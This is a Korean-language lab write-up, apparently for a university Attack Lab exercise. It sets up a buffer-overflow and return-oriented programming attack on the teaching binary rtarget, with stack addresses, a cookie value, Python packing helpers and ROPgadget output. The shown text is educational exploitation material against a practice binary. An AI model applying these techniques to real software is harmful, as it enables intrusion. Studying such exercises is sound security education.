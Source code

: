 `getbuf`의 buffer area에 Exploit code를 작성하고, 이 위치로 점프하기 위해 buffer의 address인 `rsp` 값을 추후에 사용하게 된다. **미리 `GETBUF_STACK_OFFSET = 0x18`, `GETBUF_RSP_ADDR = 0x55641148`를 정의하였다.**

```shell
$ cat cookie.txt
0x6eb933c2
```

`cookie` 값은 0x6eb933c2이다. **미리 `COOKIE = 0x6eb933c2`를 정의하였다.**



## Utility codes

### `p64(int) -> bytes`

```py
import struct
def p64(x: int) -> bytes:
    return struct.pack("<Q", x).ljust(8, b'\x00')
```

`p64`는 주어진 정수를 8byte Little endian으로 Packing하고, `\x00` 으로 패딩을 대어 8byte를 맞추는 함수이다.



### `byte2sphex(bytes) -> str`

```py
def byte2sphex(x: bytes) -> str:
    string = ""
    for ch in x:
        string += hex(ch)[2:].rjust(2, '0') + ' '
    return string
```

`byte2sphex`는 얻어진 `bytes` array를 `hex2raw`의 입력 포맷에 맞게 바꾸어 주는 함수이다. 



### ROP Gadgets - `find_gadget_addr(str) -> int`

ROP Gadget을 얻기 위해, 로컬에서 `rtarget`을 다음과 같이 실행하여 ROP gadget을 얻을 수 있었다.

```shell
$ ROPgadget --binary rtarget > 'Gadgets.txt'
$ cat Gadgets.txt
Gadgets information
============================================================
0x0000000000404088 : adc al, 0 ; add byte ptr [rax], al ; jl 0x404097 ; add byte ptr [rax], al ; nop ; jmp 0x404092
0x0000000000400d47 : adc al, 0 ; add byte ptr [rax], al ; jmp 0x400bf0
...(중략)...
0x0000000000401ae2 : xor byte ptr [rax], al ; jmp 0x401aec
0x0000000000401b9c : xor byte ptr [rax], al ; nop ; jmp 0x401ba7
0x0000000000400bd9 : xor eax, dword ptr [rcx] ; add byte ptr [rax], al ; add rsp, 8 ; ret

Unique gadgets found: 867
```
